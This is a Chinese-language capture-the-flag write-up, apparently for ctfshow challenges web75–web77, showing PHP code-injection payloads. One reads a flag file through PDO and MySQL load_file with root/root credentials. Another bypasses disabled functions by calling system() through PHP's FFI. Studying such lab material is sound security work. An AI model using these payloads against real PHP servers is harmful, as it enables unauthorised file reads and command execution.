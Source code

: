 # web75

![image-20220318211339908](https://img-blog.csdnimg.cn/img_convert/f2e0182aa68f82533797092c06687766.png)

解法同上

![image-20220318211407598](https://img-blog.csdnimg.cn/img_convert/156418e3d2b56ee39063d2d29080869f.png)

貌似不是同上，因为include函数有不行了，可以使用一些可使用的进程去读flag，这里使用PDO(PHP Database Object)去执行sql语句进而读取flag，payload：

```
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
```

![image-20220318211722798](https://img-blog.csdnimg.cn/img_convert/1791fd00da46e2c2aeb6fa8a107d6ce3.png)

# web76

![image-20220318211840950](https://img-blog.csdnimg.cn/img_convert/68d5c8bf612d1cd0f2c9044044f7e8ff.png)

列目录

![image-20220318211911599](https://img-blog.csdnimg.cn/img_convert/03dc546172d9bbaf705c49ff21b08546.png)

![image-20220318211929195](https://img-blog.csdnimg.cn/img_convert/e9f9c2ca536763457aa0635918841805.png)

解法和上题一样！

# web77

![image-20220318212041971](https://img-blog.csdnimg.cn/img_convert/edf38190e01516589ccf3a866f545041.png)

还是先读目录

![image-20220318212111711](https://img-blog.csdnimg.cn/img_convert/06ee2156502e80c951bfc0566c405009.png)

还是常使用POD读取flag36x.php但是失败了，根据提示使用PHP7.4以上才有的FFI进行命令执行，所以再构造

> ```php
> $ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
> $a='/readflag > 1.txt';//没有回显的
> $ffi->system($a);//通过$ffi去调用system函数
> ```

```php
c=$ffi = FFI::cdef("int system(const char *command);");
$a='/readflag > 1.txt';
$ffi->system($a);
```
